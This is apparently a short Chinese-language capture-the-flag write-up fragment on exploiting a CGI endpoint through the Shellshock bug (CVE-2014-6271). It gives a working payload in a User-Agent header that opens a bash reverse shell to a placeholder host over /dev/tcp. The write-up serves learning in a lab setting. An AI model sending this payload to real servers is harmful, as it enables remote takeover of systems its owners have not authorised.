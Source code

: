 
## **CGI命令执行**
看 url ，cgi 的 rce：[CVE-2014-6271](https://www.cnblogs.com/qmfsun/p/7591757.html)，不知道为什么不能直接读 flag，但是可以弹 shell，执行命令需要绝对路径

```
payload： User-Agent: () { :;}; `/bin/bash -i &>/dev/tcp/x.x.x.x/2333 <&1` 
```

